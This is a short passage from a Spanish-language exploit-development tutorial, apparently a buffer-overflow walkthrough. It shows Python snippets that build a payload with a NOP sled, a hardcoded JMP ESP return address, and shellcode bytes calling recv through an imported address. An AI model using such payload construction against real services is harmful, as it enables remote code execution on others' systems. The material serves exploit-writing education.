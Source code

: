 ![paste](./images/111.jpeg)


que es la misma que vemos en el socket cuando pusimos el breackpoint

![paste](./images/112.jpeg)

si has llegado a este paso felicidades ya estamos cerca de terminar, antes de introducir nustro shell code agregaremos Noc para que el procesador pueda interpretarlo bien , es decir cambiaremos las "A" en Noc´s 

```python
offset = 66 - len(recv)
junk = recv + b"\x90"*offset     # Noc´s
jmp_esp = p32(0x7190239F)
```

Lo ultimo que necesitamos hacer es llamar a la función 

``` python
# call recv
recv += b"\xa1\xac\x82\x90\x71" #   mov eax, [0x719082ac]
recv += b"\xff\xd0"              #   call eax
```
